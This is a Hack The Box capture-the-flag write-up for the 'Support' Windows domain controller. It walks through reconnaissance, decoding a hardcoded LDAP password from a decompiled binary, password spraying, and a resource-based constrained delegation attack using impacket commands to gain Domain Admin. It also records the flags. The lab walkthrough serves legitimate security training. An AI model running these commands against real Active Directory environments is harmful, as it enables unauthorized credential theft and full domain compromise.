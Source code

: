 # 🧑‍💻 Hack The Box – Support

## 📌 Overview
- **Machine Name:** Support
- **IP Address(es):** 10.10.11.174
- **Difficulty:** Easy
- **OS:** Windows
- **Tags:** SMB / Active Directory / LDAP / Reverse Engineering / RBCD
- **Date Completed:** 2025.08.29
- **Status:** ✅ User | ✅ Root

---

## 🖥️ Initial Recon
### Nmap
```zsh
nmap -sC -sV -oA nmap/support 10.10.11.174
```

```
53/tcp   open  domain?
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-08-29 08:08:44Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

**Findings:**

* 389/tcp → LDAP
* 139/tcp → SMB (guest access enabled)

### SMB Enumeration

```bash
nxc smb support.htb -u 'a' -p '' --shares
```

```
support-tools   READ
```

```bash
smbclient //support.htb/support-tools -U 'Guest'
```

```
UserInfo.exe.zip
```

* Discovered a readable share with an unusual application: **UserInfo.exe**.

---

## 🔍 Reverse Engineering UserInfo.exe

Decompiling revealed LDAP credentials:

```csharp
public LdapQuery()
{
    string password = Protected.getPassword();
    this.entry = new DirectoryEntry("LDAP://support.htb", "support\\ldap", password);
    this.entry.AuthenticationType = AuthenticationTypes.Secure;
    this.ds = new DirectorySearcher(this.entry);
}
```

The password was obfuscated:

```csharp
private static string enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";
private static byte[] key = Encoding.ASCII.GetBytes("armando");
```

### Decoding

```py
import base64

enc = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key = b"armando"

cipher = base64.b64decode(enc)
plain = bytes([c ^ key[i % len(key)] ^ 223 for i, c in enumerate(cipher)])

print(plain.decode())
```

Decoded password:

```
nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

### Credential Validation

```zsh
nxc ldap support.htb -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
```

```
[+] support.htb\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz 
```

* Valid domain credentials obtained.

---

## 🧭 BloodHound

Collected domain data:

```zsh
rusthound-ce -d support.htb -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -o bloodhound --ldap-filter='(objectGuid=*)' -c All
```

* Nothing interesting for `ldap` user.

---

## 🗂️ LDAP Enumeration

Custom LDAP enumeration found a suspicious `info` field:

```json
"ford.victoria": {
  "info": "Ironside47pleasure40Watchful"
}
```

* Initially appeared to be credentials for `ford.victoria`, but login attempts failed.
* Enumerated all domain users and built a wordlist.

---
 
## 🔑 Exploitation – Foothold

Brute-forced with known password string:

```zsh
nxc smb support.htb -u usernames.txt -p 'Ironside47pleasure40Watchful' --continue-on-success
```

```
[+] support.htb\support:Ironside47pleasure40Watchful
```

### Shell Access

```zsh
evil-winrm -i support.htb -u 'support' -p 'Ironside47pleasure40Watchful'
```

```
*Evil-WinRM* PS C:\Users\support\Desktop> type user.txt
c2ee84b4277d7cab7ea5ae7d9bc1d5bc
```

* **Result:** User shell obtained.

---

## 🚀 Privilege Escalation

### BloodHound Enumeration

* `support` user → member of **SHARED SUPPORT ACCOUNTS** group
* This group has **GenericAll** on `DC.SUPPORT.HTB` computer object.

![BloodHound Enumeration](ScreenShots/support-user-bloodhound.png)

### Exploit: Resource-Based Constrained Delegation (RBCD)

1. Add attacker-controlled computer:

```zsh
impacket-addcomputer -method SAMR -computer-name 'ATTACKERSYSTEM$' -computer-pass 'Summer2018!' -dc-host DC.support.htb -domain-netbios support.htb 'support.htb/support:Ironside47pleasure40Watchful'
```

2. Configure delegation:

```zsh
impacket-rbcd -delegate-from 'ATTACKERSYSTEM$' -delegate-to 'DC$' -action 'write' 'support.htb/support:Ironside47pleasure40Watchful'
```

3. Request TGT as Administrator:

```zsh
getST.py -spn cifs/DC.support.htb -impersonate Administrator support.htb/ATTACKERSYSTEM$:'Summer2018!' -dc-ip DC.support.htb
```

4. Pass-the-ticket with PsExec:

```zsh
export KRB5CCNAME=Administrator.ccache
impacket-psexec -k -no-pass support.htb/Administrator@DC.support.htb
```

```
C:\Users\Administrator\Desktop> type root.txt
ae1605fecb42f57a3d34817e12d24252
```


* **Result:** Full SYSTEM access (Domain Admin).

---

## 🏁 Flags

* **User.txt:** `c2ee84b4277d7cab7ea5ae7d9bc1d5bc`
* **Root.txt:** `ae1605fecb42f57a3d34817e12d24252`

---

## 🧠 Lessons Learned

* **Technical:**

  * Reverse engineering revealed hardcoded service account credentials.
  * LDAP info fields may leak sensitive data (poor OPSEC).
  * RBCD remains a powerful AD privilege escalation vector.

* **Personal:**

  * Always test leaked creds against multiple accounts.
  * Automating LDAP parsing speeds up discovery of hidden values.

* **Reusable Techniques:**

  * Decode obfuscation (base64 + XOR).
  * Use BloodHound to identify misconfigurations.
  * Exploit RBCD for Domain Admin when `GenericAll` on DC computer object.

---
